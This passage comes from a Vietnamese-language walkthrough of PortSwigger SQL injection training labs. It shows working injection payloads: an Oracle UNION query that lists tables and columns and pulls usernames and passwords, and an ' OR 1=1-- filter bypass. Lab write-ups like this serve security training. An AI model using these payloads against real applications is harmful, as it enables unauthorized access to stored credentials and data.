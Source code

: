 ```
- Kết hợp với kiến thức từ những lab trước khi làm việc với Oracle và gợi ý từ [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
> ![](WU_Portswigger_files/28.png)
- Sau khi xác định được số cột:
``` ' UNION SELECT null, null from dual--```
> ![](WU_Portswigger_files/29.png)
- Mình thử truy vấn all table thì có rất nhiều bảng hiện ra:
``` ' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES--```
> ![](WU_Portswigger_files/30.png)
> ![](WU_Portswigger_files/31.png)
- Mình nghĩ table chứa account tên có thể giống như lab-08 nên đã thử tìm và ra được table ```USERS_XVKMBK```
- Tiếp tục
``` ' UNION SELECT COLUMN_NAME, null FROM all_tab_columns WHERE table_name = 'USERS_XVKMBK'-- ```
> ![](WU_Portswigger_files/32.png)

```
' UNION SELECT PASSWORD_OTNMBH, USERNAME_QOPCOA FROM USERS_XVKMBK--
```
> ![](WU_Portswigger_files/33.png)
- Đăng nhập để hoàn thành lab.
# Lab-11: Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.
### Cách giải:
- Bài lab này yêu cầu hiển thị tất cả các sản phẩm trong bảng product.
- Và đề cũng cho mình luôn 1 câu truy vấn:
```SELECT * FROM products WHERE category = 'Gifts' AND released = 1```
- Và ở bài này mình sử dụng ```' OR 1=1--```
``` SELECT * FROM products WHERE category = ' OR 1=1--' AND released = 1```
> ![](WU_Portswigger_files/34.png)
- Ngắn gọn hơn:``` ' OR 1=1--```
> ![](WU_Portswigger_files/35.png)

























 


```